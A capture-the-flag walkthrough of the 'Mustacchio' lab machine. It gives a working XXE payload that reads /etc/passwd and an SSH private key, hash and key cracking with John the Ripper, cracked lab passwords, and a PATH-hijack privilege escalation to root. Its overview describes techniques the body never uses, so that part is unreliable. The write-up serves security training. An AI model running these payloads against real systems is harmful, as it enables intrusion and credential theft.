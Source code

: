Room: [Mustacchio]() ONGOING TUTORIAL

Difficulty: Hard

Overview: In this room enumeration is very important, searching for subdomains, modify an exploit to take advantage of a chat program has well a MongoDb web interface. Find and crack hashes to compromise a Bolt CMS server till we privesc to root through cap_setuid+ep capabilities.

xxe enumeration privesc web

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We can start our enumeration fase by running "nmap". It will scan for all open ports on the target system:

```
nmap -sV -sC -p- mustacchio.thm -oN nmap.txt

mustacchio.thm → you can add the ip of the room to /etc/hosts

-Pn → To bypass the blocking of ping probes   

-sV → To determine service/version info

-p-  →  Scan all ports

-oN → Save scan to a file
```

![nmap](https://user-images.githubusercontent.com/76821053/186257404-a5196013-3e31-4a6b-9c30-10db5ce6c027.png)

There are three open ports:

22     →  ssh OpenSSH 7.2p2

80     →  http Apache httpd 2.4.18

8765   →  http nginx 1.10.3

Port 80 hosts a http web server:

![website80](https://user-images.githubusercontent.com/76821053/186258496-eed09ad7-fb11-4263-af26-369b744af45f.png)

To search for any hidden directories or files we can use “Gobuster”:

```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://mustacchio.thm/ -x .txt,.cgi,.php,.log,.bak,.xxx,.old

dir             → for directory brute-force

--wordlist   → Path of the wordlist

--url           →  Specify the url path

-x              → File extensions to search for
```

![gobuster](https://user-images.githubusercontent.com/76821053/186258583-84e51d26-ff8c-446b-86bd-00246df49f6b.png)

We can start browsing the directories found by “gobuster” to see what we can find.

There is a robots.txt file but it is empty:

![robotstxt](https://user-images.githubusercontent.com/76821053/186258725-8fc63b98-3754-43af-a627-7d30f4f90a5e.png)

At /custom/js path there is an interesting file called users.bak:

![usersbak](https://user-images.githubusercontent.com/76821053/186259309-68a79b6f-4a2f-449b-9468-a1d746807f71.png)

After downloading the file we can see that it holds some credentials but we need to use strings to be able to read it:

![strings](https://user-images.githubusercontent.com/76821053/186259376-a34e8467-5b75-46e9-898d-098dbda16fe4.png)

This credentials are from a sql database, they are encrypted. Braking down the credentials we can try to assume that “admin” is the username and the rest of the hash is the encrypted password.

Like so:

admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

So using “hash-identifier” we can identify the encryption type:

![hashidentifier](https://user-images.githubusercontent.com/76821053/186259480-5f22283a-efc4-4950-b07a-11f5c8dbf023.png)

Knowing the encryption type we can use “John the ripper” to crack this password:

First we put the hash inside a file and pass it to john.

![echo](https://user-images.githubusercontent.com/76821053/187069045-30488c9f-cccf-4a24-b7fb-dcc5d715b658.png)

```
john user_hash --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt 
```

![john](https://user-images.githubusercontent.com/76821053/187069091-a4f85304-5a34-46b7-bf1d-8ab23bcae78f.png)

Credentials:

admin:bulldog19

If we take a look at the nginx http server we will find a login page that will accept our credentials:

![adminpanel](https://user-images.githubusercontent.com/76821053/187069121-cae89068-678b-43f6-9963-90c579f76cd8.png)

We have arrived at the admin panel and there is only a field where we are suppose to add comments on the website:

![adminpanelcoment](https://user-images.githubusercontent.com/76821053/187069152-43ff03fb-c541-4fd5-b923-bb5ac3f67c44.png)

Taking a closer look at the source code of the page we find how the javacript for the input field works:

![sourcecode](https://user-images.githubusercontent.com/76821053/187069180-406872f2-217e-4f81-9f65-e64c0dd8c7c5.png)

This submition input field accepts XML code, knowing this we can check for XXE vulnerabilities in this page.

XXE or XML External Entity attack is a type of attack against an application that parses XML input, for more information take a look at [owasp.org](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing).

We can use this payloads from githubs [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) 

![classicXXE](https://user-images.githubusercontent.com/76821053/187069231-64891bfc-f25b-4906-ad52-0c1fa71d641a.png)

But for it to work i adapted the XML code a bit for this webpage. What called my attention for this was a funny XML code found inside the source code, at “Example=/auth/dontforget.bak":

If we download the file we can see the structure of the XML.

![catdontforget](https://user-images.githubusercontent.com/76821053/187069432-a4fe7e02-5fbd-43f1-bcf0-67ca5ee7f253.png)

Knowing this our XML code would look like this:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY file SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author></author>
  <com>&file;</com>
</comment>
```

As we can see below, this XML format worked, we recieved the content of /etc/passwd.

![XMLformat](https://user-images.githubusercontent.com/76821053/187069519-f5f207e4-2937-44e2-9bfe-d7cf4daea789.png)

The source code of the page had a message for “Barry”, saying that we could connect through ssh with his key. If we try connecting to ssh with “Barry” we will revice a message saying “Permission denied (publickey).”

![sshbarry](https://user-images.githubusercontent.com/76821053/187069545-cc7e4d6c-68ea-4e5e-a5d4-55d57539a363.png)

This means that we can only connect to ssh with a ssh key. 

The ssh keys are normally stored at "/home/user/.ssh". We can use the same XML code to extract the keys from "barry" home directory just by change the path of file.

![rsaprivatekey](https://user-images.githubusercontent.com/76821053/187069625-728ce5da-e996-4d63-be31-6b21db0fa18d.png)

After arranging the ssh key like so:

![catidrsa](https://user-images.githubusercontent.com/76821053/187069652-1dac5b09-d086-4338-a40a-6ade9a99e68c.png)

We need to crack it with “John the ripper”. And to do so we first need to use "ssh2john":

![crackwithjohn](https://user-images.githubusercontent.com/76821053/187069700-e7ce8f9d-0e8b-496d-ac5e-f52d6614d1a8.png)

With the id_rsa key and the passprase that we crack we can now ssh to the target machine.

But first we need to change the permissions of the id_rsa file:

![chmod600](https://user-images.githubusercontent.com/76821053/187069748-967824c3-84e7-4d54-86d7-d90516989a13.png)

We are in!

![sshidrsa](https://user-images.githubusercontent.com/76821053/187069757-94342d39-8af8-430b-b4e0-94c37eff5128.png)

We can find the first flag at “Barry's” home directory:

![firstflag](https://user-images.githubusercontent.com/76821053/187069874-73e62b4d-0fc3-472f-a2f0-755574b38ca0.png)

barry: urieljames

Knowing the path to the user.txt file we could also get it through the website:

![firstflagwebsite](https://user-images.githubusercontent.com/76821053/187069983-035c1bb0-85a6-4d30-ab66-91e81e90887c.png)

When starting enumerating the machine, one of the first things we can do is search for SUID binaries:

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

![findperm](https://user-images.githubusercontent.com/76821053/187070125-6a6d521e-a92a-458c-9d95-d60a98732042.png)

Running the binary we will get a live feed of the nginx access.log file:

![accesslog](https://user-images.githubusercontent.com/76821053/187070148-1e98d600-9f1f-4db4-a376-8eb6542cd680.png)

If we look at the binary permissions we can read it, and to so we can use “strings”:

![strings2](https://user-images.githubusercontent.com/76821053/187070186-980a037e-2ff3-4a79-a295-faca0be13161.png)

“live_log” file is using “tail” to read the “access.log”, but it is not using the full PATH.

PATH is an environmental variable in Linux which contains all bin and sbin directories that hold all executable programs.

So we'll create a new “tail” binary that runs “/bin/bash”, this way we can try to hijack the PATH of “tail” to a specific directory and when the SUID binary with root privileges run it will trigger our new “tail” binary.

We can use these steps:

```bash
cd /tmp
echo '/bin/bash' > tail
chmod 777 tail
export PATH=/tmp:$PATH
```

The PATH for tails was:

![wich](https://user-images.githubusercontent.com/76821053/187070408-05257237-a503-4b7a-9be2-6fdfd943c453.png)

The new PATH is now /tmp/tail, and we just have to run the SUID binary “live_log” owned by root.

![runsuidbinary](https://user-images.githubusercontent.com/76821053/187070505-06172146-60d6-42b9-80dd-c4bf4a3899df.png)

Success! Root privileges!!

You can find the last flag at /root.

![rootflag](https://user-images.githubusercontent.com/76821053/187070539-e9035ee4-85a2-46bc-bed7-30d89f8b2a45.png)






























































